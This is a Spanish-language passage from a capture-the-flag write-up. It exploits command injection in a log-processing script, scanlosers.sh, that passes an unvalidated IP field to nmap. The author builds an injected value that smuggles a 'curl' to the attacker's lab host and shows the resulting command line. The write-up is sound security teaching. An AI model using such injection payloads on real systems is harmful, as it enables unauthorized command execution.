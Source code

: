 Realizamos una prueba para verificar qué valor es el que el script maneja al procesar el archivo de logs. Ejecutamos el siguiente comando en el sistema:

* `echo '[2025-03-02 17:40:10.917029] 10.10.14.2' | cut -d' ' -f3-`

El resultado fue:

* `10.10.14.2`

Esto confirma que el script toma la tercera columna de cada línea en el archivo de logs, que corresponde a la dirección IP (en este caso, 10.10.14.2).&#x20;

```bash
kid@scriptkiddie:~/logs$ echo '[2025-03-02 17:40:10.917029] 10.10.14.2' | cut -d' ' -f3- 
10.10.14.2
```

El valor extraído es luego utilizado por el script en la variable `ip` para realizar el escaneo de puertos con `Nmap`.

{% code title="scanlosers.sh" %}
```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
{% endcode %}

Sin embargo, al no validar correctamente el valor de la IP, es posible que se realice un Command Injection. Para demostrar esto, realizamos una prueba en la que inyectamos un comando adicional. En este caso, aprovechamos el formato del valor extraído, ya que el script solo toma la tercera columna, sin validar su contenido completamente.

Ejecutamos el siguiente comando:

* `echo 'x x x 10.10.14.2; curl 10.10.14.2/gzzcoo #' | cut -d' ' -f3-`

El resultado obtenido fue:

* `x 10.10.14.2; curl 10.10.14.2/gzzcoo #`

Aquí, la parte `10.10.14.2; curl 10.10.14.2/gzzcoo #` se inyecta correctamente en el comando, lo que indica que podemos ejecutar comandos adicionales (en este caso, un `curl`) junto con el escaneo de puertos de nmap. El `#` asegura que el resto de la línea se comente y no interfiera con el comando. Esto demuestra una vulnerabilidad de Command Injection, lo que podría permitirnos ejecutar comandos arbitrarios en el sistema.

```bash
kid@scriptkiddie:~/logs$ echo 'x x x 10.10.14.2; curl 10.10.14.2/gzzcoo #' | cut -d' ' -f3- 
x 10.10.14.2; curl 10.10.14.2/gzzcoo #
```

La sintaxis que recibiría el script `scanlosers.sh` cuando le pasemos esos valores sería algo parecido a esto.

```bash
nmap --top-ports 10 -oN recon/x 10.10.14.2; curl 10.10.14.2/gzzcoo #.nmap x 10.10.14.2; curl 10.10.14.2/gzzcoo # 2>&1 >/dev/null"
```

Para realizar la prueba final para verificar el `Command Injection` nos levantaremos un servidor web para ver si recibimos una petición por `GET` a un recurso inexistente.
